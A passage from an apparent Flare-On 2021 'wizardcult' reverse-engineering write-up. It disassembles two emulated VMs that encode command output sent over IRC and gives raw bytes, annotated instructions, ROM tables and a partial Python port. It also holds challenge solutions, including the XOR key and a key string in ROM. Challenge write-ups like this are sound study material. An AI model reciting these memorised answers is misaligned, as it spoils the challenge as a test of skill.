        a1->A0 = v22;                           // A0 = ?
        break;
      default:
        goto EXCEPTION;
    }
    goto LOOP_AGAIN;
  }
  return result;
}
```

This is somewhat tricky to understand: When we write to `A0` or `A1`, this value is used as an
*index* to the ROM. The next time we try to read from either `A0` or `A1`, we read the value
the is at last index that we wrote. Every time that we read a value, the corresponding register
`A0` or `A1` gets incremented by one. Therefore, if we set `A0` to `i` and then we read **2** times,
then we will read the values `ROM[i]` and `ROM[i+1]`. 
The `RAM` device is similar but it also supports write operations. Since none of the VMs uses
them we will not analyze it here.

### Reversing the First Emulated VM

To reverse the VMs the first step is to convert them to byte arrays. We use the
[wizardcult_convert.py](./wizardcult_convert.py) script. The 2 emulated programs are
listed below:
```
5F FF 81 03 01 01 07 50 72 6F 67 72 61 6D 01 FF 82 00 01 07 01 05 4D 61 67 69 63 01 04 00 01 05
49 6E 70 75 74 01 FF 84 00 01 06 4F 75 74 70 75 74 01 FF 86 00 01 04 43 70 75 73 01 FF 8E 00 01
04 52 4F 4D 73 01 FF 94 00 01 04 52 41 4D 73 01 FF 98 00 01 05 4C 69 6E 6B 73 01 FF 9C 00 00 00
22 FF 83 03 01 01 0B 49 6E 70 75 74 44 65 76 69 63 65 01 FF 84 00 01 01 01 04 4E 61 6D 65 01 0C
00 00 00 23 FF 85 03 01 01 0C 4F 75 74 70 75 74 44 65 76 69 63 65 01 FF 86 00 01 01 01 04 4E 61
6D 65 01 0C 00 00 00 17 FF 8D 02 01 01 08 5B 5D 76 6D 2E 43 70 75 01 FF 8E 00 01 FF 88 00 00 43
FF 87 03 01 01 03 43 70 75 01 FF 88 00 01 05 01 03 41 63 63 01 04 00 01 03 44 61 74 01 04 00 01
02 50 63 01 04 00 01 04 43 6F 6E 64 01 04 00 01 0C 49 6E 73 74 72 75 63 74 69 6F 6E 73 01 FF 8C
00 00 00 1F FF 8B 02 01 01 10 5B 5D 76 6D 2E 49 6E 73 74 72 75 63 74 69 6F 6E 01 FF 8C 00 01 FF
8A 00 00 49 FF 89 03 01 01 0B 49 6E 73 74 72 75 63 74 69 6F 6E 01 FF 8A 00 01 06 01 06 4F 70 63
6F 64 65 01 04 00 01 02 41 30 01 04 00 01 02 41 31 01 04 00 01 02 41 32 01 04 00 01 02 42 6D 01
04 00 01 04 43 6F 6E 64 01 04 00 00 00 17 FF 93 02 01 01 08 5B 5D 76 6D 2E 52 4F 4D 01 FF 94 00
01 FF 90 00 00 29 FF 8F 03 01 01 03 52 4F 4D 01 FF 90 00 01 03 01 02 41 30 01 04 00 01 02 41 31
01 04 00 01 04 44 61 74 61 01 FF 92 00 00 00 13 FF 91 02 01 01 05 5B 5D 69 6E 74 01 FF 92 00 01
04 00 00 17 FF 97 02 01 01 08 5B 5D 76 6D 2E 52 41 4D 01 FF 98 00 01 FF 96 00 00 29 FF 95 03 01
01 03 52 41 4D 01 FF 96 00 01 03 01 02 41 30 01 04 00 01 02 41 31 01 04 00 01 04 44 61 74 61 01
FF 92 00 00 00 18 FF 9B 02 01 01 09 5B 5D 76 6D 2E 4C 69 6E 6B 01 FF 9C 00 01 FF 9A 00 00 40 FF
99 03 01 01 04 4C 69 6E 6B 01 FF 9A 00 01 04 01 08 4C 48 44 65 76 69 63 65 01 04 00 01 05 4C 48
52 65 67 01 04 00 01 08 52 48 44 65 76 69 63 65 01 04 00 01 05 52 48 52 65 67 01 04 00 00 00 7A
FF 82 01 FE 26 6E 01 00 01 00 01 02 05 07 01 02 02 08 02 06 00 01 0A 01 08 01 01 02 02 00 01 02
01 01 01 02 02 04 01 02 00 01 02 02 08 02 06 01 02 00 01 02 01 08 01 04 02 06 00 01 02 01 04 01
08 02 06 00 01 02 01 08 01 02 02 06 00 00 05 03 01 02 02 08 02 06 00 01 24 01 FE 01 44 00 01 02
01 08 03 06 00 00 03 03 03 04 00 01 04 01 02 01 02 00 01 04 01 04 01 06 00 00
```

According to [wizardcult_convert.py](./wizardcult_convert.py) the first command that is sent to
the server-side client is `ls /mages_tower`. Below is the first VM
(we use [degob](https://github.com/drosseau/degob)):
```golang
Program {
  Magic: 4919,                      // 0x1337
  Input: InputDevice {Name: ""},    // Input: "cool_wizard_meme.png\ninduct"
  Output: OutputDevice {Name: ""},
  Cpus: []Cpu {
    Cpu {
      Acc: 0, Dat: 0, Pc: 0, Cond: 0, Instructions: []Instruction {
         /*          
          * Bm = {0, 1, 2, 3}
          * All A2 are 0's in all instructions
          * Cond is boolean
          * 0, 1, 2, 3 ~> Regs, 4 ~> Acc, 5 ~> Dat.

          * XOR: if Bm == 0 ~> A0 is a const. Else A0 is a reg
          * MOV: if Bm == 0 ~> A0 is an imm Else A0 is a reg
          * TEQ: (test equal):
          *      op1 = if Bm & 1 == 0 ~> A0 is an imm Else A0 is a reg 
          *      op2 = if Bm & 2 == 0 ~> A1 is an imm Else A1 is a reg 
          *  
          *      if op1 == op2 ~> Cpu.cond = 1;
          *      else Cpu.cond = -1;
          */
        Instruction {Opcode: 1, A0: 0, A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R0
        Instruction {Opcode: 5, A0: 4, A1:-1, A2: 0, Bm: 1, Cond: 0}, // teq Acc, -1 (Acc == -1?)
        Instruction {Opcode: 1, A0:-1, A1: 1, A2: 0, Bm: 2, Cond: 1}, // mov R1, -1  (execute iff Cpu.cond == 1)
        Instruction {Opcode: 1, A0: 0, A1: 4, A2: 0, Bm: 3, Cond: 1}, // mov Acc, R0
        Instruction {Opcode: 1, A0: 4, A1: 2, A2: 0, Bm: 3, Cond: 0}, // mov R2, Acc
        Instruction {Opcode: 1, A0: 2, A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R2
        Instruction {Opcode: 1, A0: 4, A1: 1, A2: 0, Bm: 3, Cond: 0}  // mov R1, Acc
      }
    }, 
    Cpu {
      Acc: 0, Dat: 0, Pc: 0, Cond: 0, Instructions: []Instruction {
        Instruction {Opcode: 1,  A0: 0,   A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R0
        Instruction {Opcode: 18, A0: 162, A1: 0, A2: 0, Bm: 0, Cond: 0}, // xor Acc, 162
        Instruction {Opcode: 1,  A0: 4,   A1: 0, A2: 0, Bm: 3, Cond: 0}  // mov R0, Acc
      }
    }
  },
  ROMs: []ROM {},
  RAMs: []RAM {},
  Links: []Link {
    /* ROM, RAM, Cpu, InputDevice, OutputDevice are all "devices" */
    Link {LHDevice: 0, LHReg: 0, RHDevice: 2, RHReg: 0},
    Link {LHDevice: 2, LHReg: 1, RHDevice: 1, RHReg: 0},
    Link {LHDevice: 2, LHReg: 2, RHDevice: 3, RHReg: 0}
  }
}
```

This VM is fairly simple. It has **2** CPUs that run in parallel and they are connected through
a link:
```
Link {LHDevice: 2, LHReg: 2, RHDevice: 3, RHReg: 0}
```

This link says that the register `R2` from the device with ID **#2** (IDs start from `0:Input`,
`1:Output`, `2:CPU0`, `3:CPU1`) is "linked" to the register `R0` from the device with ID **#3**
(i.e., `CPU1`). That is, when we write something to `R2` in `CPU0`, this value becomes available
to `R0` in `CPU1` and vice versa: When we read something from `R2` `CPU0` we actually read the
value from `R0` in `CPU1`. If the value is not available the corresponding CPU blocks until it
becomes.

This VM is fairly easy to understand: `CPU0` reads from `Input` device until there is no more input
(device returns -1), sends the input byte to `CPU1`, where `CPU1` XORs it with **162**, and then
writes this byte to `Output` device. Therefore to recover the input, all we have to do, is to
process the IRC output, recover the bytes and XOR every byte with **162**:
```
I cast Moonbeam on the Goblin for 205d205 damage!
I cast Reverse Gravity on the Goblin for 253d213 damage!
I cast Water Walk on the Goblin for 216d195 damage!
I cast Mass Suggestion on the Goblin for 198d253 damage!
I cast Planar Ally on the Goblin for 199d207 damage!
I cast Water Breathing on the Goblin for 140d210 damage!
I cast Conjure Barrage on the Goblin for 197d168 damage!
I cast Water Walk on the Goblin for 204d198 damage!
I cast Call Lightning on the Goblin for 193d214 damage!
I cast Branding Smite on the Goblin!
```

We use the [wizardcult_crack.py](./wizardcult_crack.py) script to crack the output:
```
cool_wizard_meme.png
induct
```

### Reversing the Second Emulated VM

The second VM is more complicated. We reuse the [wizardcult_convert.py](./wizardcult_convert.py)
script to get its bytes:
```
5F FF 81 03 01 01 07 50 72 6F 67 72 61 6D 01 FF 82 00 01 07 01 05 4D 61 67 69 63 01 04 00 01 05
49 6E 70 75 74 01 FF 84 00 01 06 4F 75 74 70 75 74 01 FF 86 00 01 04 43 70 75 73 01 FF 8E 00 01
04 52 4F 4D 73 01 FF 94 00 01 04 52 41 4D 73 01 FF 98 00 01 05 4C 69 6E 6B 73 01 FF 9C 00 00 00
22 FF 83 03 01 01 0B 49 6E 70 75 74 44 65 76 69 63 65 01 FF 84 00 01 01 01 04 4E 61 6D 65 01 0C
00 00 00 23 FF 85 03 01 01 0C 4F 75 74 70 75 74 44 65 76 69 63 65 01 FF 86 00 01 01 01 04 4E 61
6D 65 01 0C 00 00 00 17 FF 8D 02 01 01 08 5B 5D 76 6D 2E 43 70 75 01 FF 8E 00 01 FF 88 00 00 43
FF 87 03 01 01 03 43 70 75 01 FF 88 00 01 05 01 03 41 63 63 01 04 00 01 03 44 61 74 01 04 00 01
02 50 63 01 04 00 01 04 43 6F 6E 64 01 04 00 01 0C 49 6E 73 74 72 75 63 74 69 6F 6E 73 01 FF 8C
00 00 00 1F FF 8B 02 01 01 10 5B 5D 76 6D 2E 49 6E 73 74 72 75 63 74 69 6F 6E 01 FF 8C 00 01 FF
8A 00 00 49 FF 89 03 01 01 0B 49 6E 73 74 72 75 63 74 69 6F 6E 01 FF 8A 00 01 06 01 06 4F 70 63
6F 64 65 01 04 00 01 02 41 30 01 04 00 01 02 41 31 01 04 00 01 02 41 32 01 04 00 01 02 42 6D 01
04 00 01 04 43 6F 6E 64 01 04 00 00 00 17 FF 93 02 01 01 08 5B 5D 76 6D 2E 52 4F 4D 01 FF 94 00
01 FF 90 00 00 29 FF 8F 03 01 01 03 52 4F 4D 01 FF 90 00 01 03 01 02 41 30 01 04 00 01 02 41 31
01 04 00 01 04 44 61 74 61 01 FF 92 00 00 00 13 FF 91 02 01 01 05 5B 5D 69 6E 74 01 FF 92 00 01
04 00 00 17 FF 97 02 01 01 08 5B 5D 76 6D 2E 52 41 4D 01 FF 98 00 01 FF 96 00 00 29 FF 95 03 01
01 03 52 41 4D 01 FF 96 00 01 03 01 02 41 30 01 04 00 01 02 41 31 01 04 00 01 04 44 61 74 61 01
FF 92 00 00 00 18 FF 9B 02 01 01 09 5B 5D 76 6D 2E 4C 69 6E 6B 01 FF 9C 00 01 FF 9A 00 00 40 FF
99 03 01 01 04 4C 69 6E 6B 01 FF 9A 00 01 04 01 08 4C 48 44 65 76 69 63 65 01 04 00 01 05 4C 48
52 65 67 01 04 00 01 08 52 48 44 65 76 69 63 65 01 04 00 01 05 52 48 52 65 67 01 04 00 00 00 FE
04 B9 FF 82 01 FE 26 6E 01 00 01 00 01 06 05 07 01 02 02 08 02 06 00 01 0A 01 08 01 01 02 02 00
01 02 01 01 01 02 02 04 01 02 00 01 02 02 08 02 06 01 02 00 01 02 01 08 01 04 02 06 00 01 02 01
04 01 08 02 06 00 01 02 01 08 01 02 02 06 00 00 05 10 01 02 02 08 02 06 00 01 02 01 08 01 02 02
06 00 01 02 01 02 01 08 02 06 00 01 02 01 08 01 04 02 06 00 01 02 01 04 01 08 02 06 00 01 02 01
08 01 02 02 06 00 01 02 01 02 01 0A 02 06 00 01 02 01 FE 01 00 01 08 02 04 00 01 20 01 0A 03 02
00 01 0A 01 08 01 FE 01 00 02 02 00 01 02 01 0A 01 08 02 06 01 02 00 01 24 01 FF 84 04 02 00 01
02 01 0A 01 08 02 06 01 01 00 01 1A 01 FE 0A 72 00 01 20 01 FE 01 FE 00 01 02 01 08 03 06 00 00
05 06 01 02 02 08 02 06 00 01 0C 01 08 01 FF C6 02 02 00 01 02 01 08 01 06 02 06 01 02 00 01 02
01 06 03 06 01 02 00 01 02 01 08 01 02 02 06 01 01 00 01 02 01 04 03 06 01 01 00 00 05 07 01 02
02 08 02 06 00 01 0C 01 08 01 FE 01 8E 02 02 00 01 02 01 08 01 06 02 06 01 02 00 01 02 01 06 03
06 01 02 00 01 14 01 FF C8 04 01 00 01 02 01 08 01 02 02 06 01 01 00 01 02 01 04 03 06 01 01 00
00 05 04 01 02 02 08 02 06 00 01 14 01 FE 01 90 00 01 02 01 08 01 02 02 06 00 01 02 01 04 03 06
00 00 05 09 01 02 01 02 01 08 02 06 00 01 20 01 02 00 01 0A 01 08 01 02 02 02 00 01 02 02 0A 02
06 00 01 02 01 04 01 08 02 06 00 01 1A 01 FE 0A 72 04 02 00 01 20 01 FE 01 FE 04 02 00 01 24 01
0A 03 02 00 01 02 01 08 03 06 00 00 01 04 03 64 FF B4 FE 01 08 0C FF 8A FE 01 5C FE 01 96 FE 01
D0 FE 01 E6 FF AE FE 01 FC FE 01 4C 7A FF BC FF 82 10 FE 01 A0 66 44 42 FE 01 02 40 FE 01 BA 00
FE 01 40 46 FE 01 5E FF E2 08 FE 01 16 FE 01 EA 30 3A FE 01 C2 1E FF CA 12 FE 01 9C FF 84 FF F0
7C FE 01 86 6E FE 01 94 FE 01 1E FF C8 64 FE 01 C0 FE 01 58 FE 01 BC FE 01 22 FF F8 54 FE 01 80
0E FE 01 E8 FE 01 2A FE 01 3E FF 80 FF A6 FE 01 CA FF CE FE 01 6C FF F4 FF A4 FF 9C 7E FE 01 06
FF 96 FE 01 92 FE 01 04 FF E4 5C FF EC 38 FE 01 E2 3C FE 01 98 FE 01 6E FE 01 AE FE 01 8E FE 01
14 20 FF F2 34 FF 9A 32 6A 2C FF FA FF 86 56 FE 01 9A FE 01 0C FE 01 56 FF 88 FE 01 24 FE 01 A8
1C FE 01 30 28 00 03 64 FE 01 72 FE 01 36 FE 01 4E 48 36 78 FE 01 C4 74 FE 01 A6 FE 01 E0 FE 01
FA FF 9E FF EE FE 01 A2 FE 01 46 18 FF 90 FE 01 00 FF D4 FE 01 B4 FE 01 7A FE 01 B0 FF 8E FF B6
FE 01 F4 FE 01 2C 16 FE 01 D8 FE 01 9E FF 92 FE 01 B2 22 FF FE FE 01 62 4E FE 01 CE FE 01 8A FE
01 64 FF C6 FE 01 CC 50 6C FE 01 66 FF BA FE 01 F6 FE 01 B8 FE 01 50 FF E0 4A FE 01 EC FE 01 60
FE 01 38 FE 01 4A FF BE FE 01 70 72 FE 01 C8 FE 01 0A FE 01 52 FE 01 F8 26 04 FF A2 60 FE 01 E4
FF D2 FE 01 FE FF E8 FE 01 7E FF B2 FE 01 6A FF 8C 2E FE 01 84 FF B0 FF C2 FE 01 32 FE 01 D6 FE
01 48 FE 01 3C FE 01 12 FE 01 DC FF D8 FE 01 DE FE 01 44 FE 01 20 FF E6 FE 01 18 FF A8 FE 01 78
FF DA FE 01 B6 58 FE 01 AC FE 01 C6 FE 01 42 FE 01 1A FF A0 FE 01 EE 68 00 03 38 FE 01 AA FE 01
F2 02 FF F6 FE 01 1C FE 01 7C FF D0 FF D6 FF AA FE 01 3A 5A FE 01 DA 5E FE 01 26 2A 3E FE 01 88
FE 01 10 FE 01 54 FE 01 F0 1A FF B8 FE 01 D4 FF AC 06 FE 01 82 FE 01 34 70 0A FF DE FF C4 FF 94
24 FE 01 BE FF C0 FE 01 28 52 FF EA FF FC FE 01 5A FE 01 D2 14 62 FE 01 68 FE 01 76 FE 01 74 FE
01 0E 76 4C FE 01 A4 FF DC FF CC FE 01 90 FF 98 FE 01 2E FE 01 8C 00 03 18 FF C2 62 62 FF BE FF
DA FF B2 FF BE FF D0 FF DE FF DA 62 FF CA FF E6 FF BE FF D0 68 FF E8 66 FF BE FF C4 68 FF E4 FF
C8 FF E6 00 02 10 03 04 00 01 04 01 02 01 02 00 01 04 01 04 01 06 00 01 06 01 02 01 08 00 01 06
01 02 01 08 00 01 06 01 04 01 0E 00 01 08 01 02 01 10 00 01 08 01 04 01 10 01 02 00 01 08 01 06
01 0A 00 01 0A 01 02 01 12 00 01 0A 01 04 01 12 01 02 00 01 0A 01 06 01 0C 00 01 0C 01 02 01 14
00 01 0C 01 04 01 14 01 02 00 01 0E 01 02 01 16 00 01 0E 01 04 01 16 01 02 00 00
```

Then we feed it to  and then we feed it to [degob](https://github.com/drosseau/degob):
```
cat ~/ctf/flare-on-2021/10_wizardcult/prog2.vm | go run cmds/degob/main.go
```

Let's disassemble it:
```golang
Program { 
    Magic: 4919, // 0x1337
    Input: InputDevice {Name: ""},
    Output: OutputDevice {Name: ""},
    Cpus: []Cpu {
        Cpu {
            // Same CPU as the 1st CPU of the VM above.
            // CPU0:
            //      Acc = get(Input)
            //      set(CPU1.R0) = Acc
            //      # There's code get executed between get & set!
            //      set(Output, get(CPU1.R0))
            Acc: 0, Dat: 0, Pc: 0, Cond: 0, Instructions: []Instruction {               
                Instruction {Opcode: 1, A0: 0, A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R0  (R0 = Input.next)
                Instruction {Opcode: 5, A0: 4, A1:-1, A2: 0, Bm: 1, Cond: 0}, // teq Acc, -1  (-1 == Acc?)
                Instruction {Opcode: 1, A0:-1, A1: 1, A2: 0, Bm: 2, Cond: 1}, // mov R1, -1
                Instruction {Opcode: 1, A0: 0, A1: 4, A2: 0, Bm: 3, Cond: 1}, // mov Acc, R0
                Instruction {Opcode: 1, A0: 4, A1: 2, A2: 0, Bm: 3, Cond: 0}, // mov R2, Acc  (R2 = CPU1.R0)
                Instruction {Opcode: 1, A0: 2, A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R2
                Instruction {Opcode: 1, A0: 4, A1: 1, A2: 0, Bm: 3, Cond: 0}  // mov R1, Acc  (R1 = Output.next)
            }
        },
        Cpu {
            // CPU1:
            //  set(CPU2.R0) = get(CPU0.R2)
            //  set(CPU5.R0) = get(CPU2.R0)
            //  set(CPU2.R0) = get(CPU5.R0)
            //
            //  Dat = get(CPU2.R0)
            //  if Dat & 0x80 == 0x80:
            //      Dat ^= 66
            //
            //  set(CPU0.R2) = Dat ^ 0xFF
            Acc: 0, Dat: 0, Pc: 0, Cond: 0, Instructions: []Instruction {
                Instruction {Opcode: 1, A0: 0,   A1: 4,  A2: 0, Bm: 3, Cond: 0}, // mov Acc, R0  (R0 = CPU0.R2)
                
                Instruction {Opcode: 1, A0: 4,   A1: 1,  A2: 0, Bm: 3, Cond: 0}, // mov R1, Acc  (R1 = CPU2.R0)          
                Instruction {Opcode: 1, A0: 1,   A1: 4,  A2: 0, Bm: 3, Cond: 0}, // mov Acc, R1  (R1 = CPU2.R0)
                
                Instruction {Opcode: 1, A0: 4,   A1: 2,  A2: 0, Bm: 3, Cond: 0}, // mov R2, Acc  (R2 = CPU5.R0)
                Instruction {Opcode: 1, A0: 2,   A1: 4,  A2: 0, Bm: 3, Cond: 0}, // mov Acc, R2  (R2 = CPU5.R0)
                
                Instruction {Opcode: 1, A0: 4,   A1: 1,  A2: 0, Bm: 3, Cond: 0}, // mov R1, Acc  (R1 = CPU2.R0)
                Instruction {Opcode: 1, A0: 1,   A1: 5,  A2: 0, Bm: 3, Cond: 0}, // mov Dat, R1  (R1 = CPU2.R0)

                Instruction {Opcode: 1, A0: 128, A1: 4,  A2: 0, Bm: 2, Cond: 0}, // mov Acc, 0x80
                Instruction {Opcode: 16,A0: 5,   A1: 0,  A2: 0, Bm: 1, Cond: 0}, // and Acc, Dat
                Instruction {Opcode: 5, A0: 4,   A1: 128,A2: 0, Bm: 1, Cond: 0}, // teq Acc, 0x80 (128 == Acc?) MSBit is set
                Instruction {Opcode: 1, A0: 5,   A1: 4,  A2: 0, Bm: 3, Cond: 1}, // mov Acc, Dat  (Acc == 128)
                Instruction {Opcode: 18,A0: 66,  A1: 0,  A2: 0, Bm: 0, Cond: 1}, // xor Acc, 66
                Instruction {Opcode: 1, A0: 5,   A1: 4,  A2: 0, Bm: 3, Cond:-1}, // mov Acc, Dat  (Acc != 128)
                Instruction {Opcode: 13,A0: 1337,A1: 0,  A2: 0, Bm: 0, Cond: 0}, // not Acc       (Acc ^= 0xFFFFFFFF)
                Instruction {Opcode: 16,A0: 255, A1: 0,  A2: 0, Bm: 0, Cond: 0}, // and Acc, 0xFF
                Instruction {Opcode: 1, A0: 4,   A1: 0,  A2: 0, Bm: 3, Cond: 0}  // mov R0, Acc   (R0 = CPU0.R2)
            }                   
        },
        Cpu {   
                // CPU2:
                //  Acc = get(CPU1.R1)
                //  if Acc > 99:
                //      set(CPU3.R0) = Acc
                //      set(CPU1.R1) = get(CPU3.R0)
                //  else:               
                //      set(CPU1.R1) = get(ROM0[Acc])
            Acc: 0, Dat: 0, Pc: 0, Cond: 0, Instructions: []Instruction {
                Instruction {Opcode: 1, A0: 0, A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R0  (R0 = CPU1.R1)
                Instruction {Opcode: 6, A0: 4, A1: 99,A2: 0, Bm: 1, Cond: 0}, // tgt Acc, 99  (99 >= Acc?)
                Instruction {Opcode: 1, A0: 4, A1: 3, A2: 0, Bm: 3, Cond: 1}, // mov R3, Acc  (Acc <= 99)       (R3 = CPU3.R0)
                Instruction {Opcode: 1, A0: 3, A1: 0, A2: 0, Bm: 3, Cond: 1}, // mov R0, R3
                Instruction {Opcode: 1, A0: 4, A1: 1, A2: 0, Bm: 3, Cond:-1}, // mov R1, Acc  (Acc > 99)   (R1 = ROM0.next)
                Instruction {Opcode: 1, A0: 2, A1: 0, A2: 0, Bm: 3, Cond:-1}  // mov R0, R2   (R2 = ROM0.next)
            }
        },
        Cpu {
                // CPU3:
                //  Acc = get(CPU2.R3)
                //  if Acc > 199:
                //      set(CPU4.R0) = Acc
                //      set(CPU2.R3) = get(CPU4.R0)
                //  else:
                //      set(CPU2.R3) = ROM1[Acc - 100]
            Acc: 0, Dat: 0, Pc: 0, Cond: 0, Instructions: []Instruction {
                Instruction {Opcode: 1, A0: 0,  A1: 4,  A2: 0, Bm: 3, Cond: 0}, // mov Acc, R0  (R0 = CPU2.R3)
                Instruction {Opcode: 6, A0: 4,  A1: 199,A2: 0, Bm: 1, Cond: 0}, // tgt Acc, 199 (199 >= Acc?)
                Instruction {Opcode: 1, A0: 4,  A1: 3,  A2: 0, Bm: 3, Cond: 1}, // mov R3, Acc  (Acc <= 199)  (R3 = CPU4.R0)
                Instruction {Opcode: 1, A0: 3,  A1: 0,  A2: 0, Bm: 3, Cond: 1}, // mov R0, R3   (R0 = CPU2.R3)
                Instruction {Opcode: 10,A0: 100,A1: 0,  A2: 0, Bm: 0, Cond:-1}, // sub Acc, 100 (Acc > 199) 
                Instruction {Opcode: 1, A0: 4,  A1: 1,  A2: 0, Bm: 3, Cond:-1}, // mov R1, Acc  (R1 = ROM1.next)
                Instruction {Opcode: 1, A0: 2,  A1: 0,  A2: 0, Bm: 3, Cond:-1}  // mov R0, R2   (R2 = ROM1.next)
            }                   
        },
        Cpu {
            // CPU4:            
            //  Acc = get(CPU3.R3)
            //  set(CPU3.R3) = ROM2[Acc - 200]
            Acc: 0, Dat: 0, Pc: 0, Cond: 0, Instructions: []Instruction {
                Instruction {Opcode: 1, A0: 0,  A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R0  (R0 = CPU3.R3)
                Instruction {Opcode: 10,A0: 200,A1: 0, A2: 0, Bm: 0, Cond: 0}, // sub Acc, 200
                Instruction {Opcode: 1, A0: 4,  A1: 1, A2: 0, Bm: 3, Cond: 0}, // mov R1, Acc  (R1 = ROM2.next)
                Instruction {Opcode: 1, A0: 2,  A1: 0, A2: 0, Bm: 3, Cond: 0}  // mov R0, R2   (R0 = CPU3.R3; R2 = ROM2.next)
            }
        },
        Cpu {
            // CPU5: 
            //  Acc = get(ROM3_nxt)
            //
            //  if get(ROM3_idx) & 1 == 1:
            //      Acc ^= 0xFF
            //  Acc ^= get(CPU1.R2)
            //  set(CPU1.R2) = Acc
            Acc: 0, Dat: 0, Pc: 0, Cond: 0, Instructions: []Instruction {
                Instruction {Opcode: 1, A0: 1,   A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R1 (R1 = ROM3.next)
                Instruction {Opcode: 16,A0: 1,   A1: 0, A2: 0, Bm: 0, Cond: 0}, // and Acc, 1
                Instruction {Opcode: 5, A0: 4,   A1: 1, A2: 0, Bm: 1, Cond: 0}, // teq Acc, 1  (1 == Acc?)
                Instruction {Opcode: 1, A0: 0,   A1: 5, A2: 0, Bm: 3, Cond: 0}, // mov Dat, R0 (R0 = CPU1.R2)
                Instruction {Opcode: 1, A0: 2,   A1: 4, A2: 0, Bm: 3, Cond: 0}, // mov Acc, R2 (R2 = ROM3.next)
                Instruction {Opcode: 13,A0: 1337,A1: 0, A2: 0, Bm: 0, Cond: 1}, // not Acc      ~> bit flip
                Instruction {Opcode: 16,A0: 255, A1: 0, A2: 0, Bm: 0, Cond: 1}, // and Acc, 0xFF
                Instruction {Opcode: 18,A0: 5,   A1: 0, A2: 0, Bm: 1, Cond: 0}, // xor Acc, Dat
                Instruction {Opcode: 1, A0: 4,   A1: 0, A2: 0, Bm: 3, Cond: 0}  // mov R0, Acc (R0 = CPU1.R2)
            }
        }
    }, 
    ROMs: []ROM{
        ROM{
            A0: 0, A1: 0, Data: []int64{
                90, 132, 6, 69, 174, 203, 232, 243, 87, 254, 166, 61, 94, 65, 8, 208,
                51, 34, 33, 129, 32, 221, 0, 160, 35, 175, 113, 4, 139, 245, 24, 29,
                225, 15, 101, 9, 206, 66, 120, 62, 195, 55, 202, 143, 100, 50, 224, 172,
                222, 145, 124, 42, 192, 7, 244, 149, 159, 64, 83, 229, 103, 182, 122, 82,
                78, 63, 131, 75, 201, 130, 114, 46, 118, 28, 241, 30, 204, 183, 215, 199,
                138, 16, 121, 26, 77, 25, 53, 22, 125, 67, 43, 205, 134, 171, 68, 146,
                212, 14, 152, 20
            }
        },
        ROM{
            A0: 0, A1: 0, Data: []int64{
                185, 155, 167, 36, 27, 60, 226, 58, 211, 240, 253, 79, 119, 209, 163, 12,
                72, 128, 106, 218, 189, 216, 71, 91, 250, 150, 11, 236, 207, 73, 217, 17,
                127, 177, 39, 231, 197, 178, 99, 230, 40, 54, 179, 93, 251, 220, 168, 112,
                37, 246, 176, 156, 165, 95, 184, 57, 228, 133, 169, 252, 19, 2, 81, 48,
                242, 105, 255, 116, 191, 89, 181, 70, 23, 194, 88, 97, 153, 235, 164, 158,
                137, 238, 108, 239, 162, 144, 115, 140, 84, 188, 109, 219, 44, 214, 227, 161,
                141, 80, 247, 52
            }
        },
        ROM{
            A0: 0, A1: 0, Data: []int64{
                213, 249, 1, 123, 142, 190, 104, 107, 85, 157, 45, 237, 47, 147, 21, 31,
                196, 136, 170, 248, 13, 92, 234, 86, 3, 193, 154, 56, 5, 111, 98, 74,
                18, 223, 96, 148, 41, 117, 126, 173, 233, 10, 49, 180, 187, 186, 135, 59,
                38, 210, 110, 102, 200, 76, 151, 198
            }
        },
        ROM{
            A0: 0, A1: 0, Data: []int64{    // ROM3: 'a11_mY_hom1es_h4t3_b4rds'
                97, 49, 49, 95, 109, 89, 95, 104, 111, 109, 49, 101, 115, 95, 104, 52,
                116, 51, 95, 98, 52, 114, 100, 115
            }
        }
    }, 
    RAMs: []RAM{},
    Links: []Link{
        Link{LHDevice: 0, LHReg: 0, RHDevice: 2, RHReg: 0}, // Input ~> CPU0
        Link{LHDevice: 2, LHReg: 1, RHDevice: 1, RHReg: 0}, // CPU0  ~> Output
        Link{LHDevice: 2, LHReg: 2, RHDevice: 3, RHReg: 0}, // CPU0  ~> CPU1
        Link{LHDevice: 3, LHReg: 1, RHDevice: 4, RHReg: 0}, // CPU1  ~> CPU2
        Link{LHDevice: 3, LHReg: 1, RHDevice: 4, RHReg: 0}, // CPU1  ~> CPU2 (probably a typo?)
        Link{LHDevice: 3, LHReg: 2, RHDevice: 7, RHReg: 0}, // CPU1  ~> CPU5
        Link{LHDevice: 4, LHReg: 1, RHDevice: 8, RHReg: 0}, // CPU2  ~> ROM0
        Link{LHDevice: 4, LHReg: 2, RHDevice: 8, RHReg: 1}, // CPU2  ~> ROM0
        Link{LHDevice: 4, LHReg: 3, RHDevice: 5, RHReg: 0}, // CPU2  ~> CPU3
        Link{LHDevice: 5, LHReg: 1, RHDevice: 9, RHReg: 0}, // CPU3  ~> ROM1
        Link{LHDevice: 5, LHReg: 2, RHDevice: 9, RHReg: 1}, // CPU3  ~> ROM1
        Link{LHDevice: 5, LHReg: 3, RHDevice: 6, RHReg: 0}, // CPU3  ~> CPU4
        Link{LHDevice: 6, LHReg: 1, RHDevice: 10,RHReg: 0}, // CPU4  ~> ROM2
        Link{LHDevice: 6, LHReg: 2, RHDevice: 10,RHReg: 1}, // CPU4  ~> ROM2    
        Link{LHDevice: 7, LHReg: 1, RHDevice: 11,RHReg: 0}, // CPU5  ~> ROM3
        Link{LHDevice: 7, LHReg: 2, RHDevice: 11,RHReg: 1}  // CPU5  ~> ROM3
    }
}
```

Here things are more complicated: We have **6** CPUs that run in parallel and **4** ROMs. To
better understand how it works, let's convert it into python
([wizardcult_test.py](./wizardcult_test.py) contains the full code):
```python
def CPU0():
    Acc = get_Input()
    # There's code get executed between get & set!
    b = CPU1(Acc)
    Output.append(b)

def CPU1(cpu0_r2):
  b = CPU2(cpu0_r2)
  c = CPU5(b)
  Dat = CPU2(c)

  if Dat & 128 == 128:
    Dat ^= 66

  return Dat ^ 0xFF

def CPU2(cpu1_r1):
  Acc = cpu1_r1

  if Acc > 99:
    ret = CPU3(Acc)
  else:
    ret = ROM0[Acc]

  return ret

def CPU3(cpu2_r3):
  Acc = cpu2_r3
  if Acc > 199:    
    ret = CPU4(Acc)
  else:    
    ret = ROM1[Acc - 100]

